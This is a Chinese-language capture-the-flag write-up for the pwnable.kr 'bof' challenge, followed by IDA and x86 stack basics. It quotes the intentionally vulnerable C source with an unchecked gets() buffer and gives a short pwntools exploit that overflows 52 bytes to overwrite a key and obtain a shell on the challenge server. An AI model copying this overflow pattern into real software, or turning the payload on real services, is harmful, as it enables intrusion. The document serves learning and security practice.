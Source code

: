 ## Toddler's Bottle
### bof
打开bof.c可以看到源代码，需要让 key == 0xcafebabe 但key已经被给定。` gets(overflowme);	// smash me!` 提示用栈溢出覆盖原有值。<p>
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
下载 bof 文件ida反汇编后得到：<p> ![ida](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_main.jpg)<p> 

> dword 双字 就是4个字节 <p> ptr 即指针  pointer <p> [ ] 里的数据是一个地址值，这个地址指向一个双字型数据 <p> mov eax, dword ptr [1234]  即把内存地址1234中的双字型（32位）数据赋给eax 

> 当堆栈地址是正偏移量时IDA把它识别为参数，负偏移量将被识别为变量，并具有 var_ 前缀 <p> argc = dword ptr 8  即输入的第一个参数argc 的偏移量是+8<p>

双击argc 后可跳转到 stack of main 页面，也可以看到 `agrc 的栈偏移量为+00000008` <p>![stackofmain](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_stackofmain.jpg)<p> 

查看伪代码：(如果F5不能显示伪代码，可能是程序和ida的操作系统不匹配，试试换成32位/64位ida) <p> ![pseudo](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_pseudo.jpg)<p> 
双击查看func ：<p> ![func](https://github.com/ormosiaL/pwnable_writeup/blob/main/img/bof_func.jpg)<p> 
get(s) 处存在栈溢出，s 的偏移量为 -2c，所以构造52个字符（0x08+0x2c = 0x34）即可以溢出到key ，从而使得key变为所需值0xcafebabe <p>
exp:
```
from pwn import *
r = remote("pwnable.kr",9000)
payload = "a"*52+p32(0xcafebabe)
r.send(payload)
r.interactive()
```

ida 基础：<p>
ESP：栈指针寄存器(extended stack pointer)，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的栈顶。（64位机器变为RSP）
EBP：基址指针寄存器(extended base pointer)，其内存放着一个指针，该指针永远指向系统栈最上面一个栈帧的栈底。（64位机器变为RBP）

You'll allways find this code at the beginning of functions:
.text:00401150                 push    ebp
.text:00401151                 mov     ebp, esp
It's the prologue, it saves and sets up the registers to start executing the actual code

And this is the epilogue:

.text:00401153                 pop     ebp
.text:00401154                 retn
You'll find it after the actual code, it restores the registers and returns.

ebp always points to the top (because the stack grows downwards) of the memory reserved for the autovariables

mov     ebp, 1		: set register ebp equal to 1
mov     [ebp], 1	: set the memory pointed to by register ebp equal to 1
mov     [ebp-4], 1	: set the memory pointed to by register ebp - 4 equal to 1